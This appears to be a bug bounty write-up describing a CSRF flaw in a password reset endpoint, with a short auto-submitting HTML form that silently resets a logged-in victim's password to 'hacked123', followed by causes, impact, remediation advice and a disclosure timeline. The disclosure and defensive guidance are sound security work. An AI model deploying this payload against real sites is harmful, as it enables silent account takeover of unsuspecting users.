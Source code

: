 ```yaml
---
title: "CSRF in Password Reset"
image: "/YARAscanner.jpg"
date: "2024-04-18"
category: "web"
tags: ["csrf", "security", "web"]
description: "A critical CSRF vulnerability in the password reset flow."
---
```


# 🔓 CSRF Attack in Password Reset

During a bug bounty assessment, I discovered that the password reset functionality lacked **Cross-Site Request Forgery (CSRF)** protection, which allowed attackers to reset user passwords without their knowledge.

---

## 🧪 Exploit

The following HTML could be embedded in a malicious site. If a logged-in user visits the page, their password gets reset to `hacked123`:

```html
<form action="https://target.com/reset-password" method="POST">
  <input type="hidden" name="password" value="hacked123" />
</form>
<script>document.forms[0].submit()</script>
<Note>This attack works silently in the background without any user interaction.</Note>

## ⚙️ Why It Worked

- No CSRF token was implemented.
- No SameSite cookie protection.
- The endpoint didn't check the Origin or Referer headers.

## 💥 Impact

- An attacker could take over any account by tricking an authenticated user into visiting a crafted page.
- Could lead to full account compromise and loss of sensitive data.

## 🛡️ Remediation

To mitigate this vulnerability:

- Implement CSRF tokens on all state-changing operations.
- Set SameSite cookies to Strict or Lax where applicable.
- Validate Referer/Origin headers as an additional layer of defense.

## 📌 Disclosure Timeline

1. April 15 – Vulnerability discovered during manual testing.
2. April 16 – Report submitted to the platform.
3. April 17 – Developer acknowledged issue.
4. April 18 – Fix deployed and verified.

## 🔚 Conclusion

CSRF vulnerabilities are still common in modern apps and can have devastating effects. Developers should assume that every form needs CSRF protection—especially those involving account credentials.

<Note>Use tools like OWASP ZAP or Burp Suite to automate CSRF detection.</Note>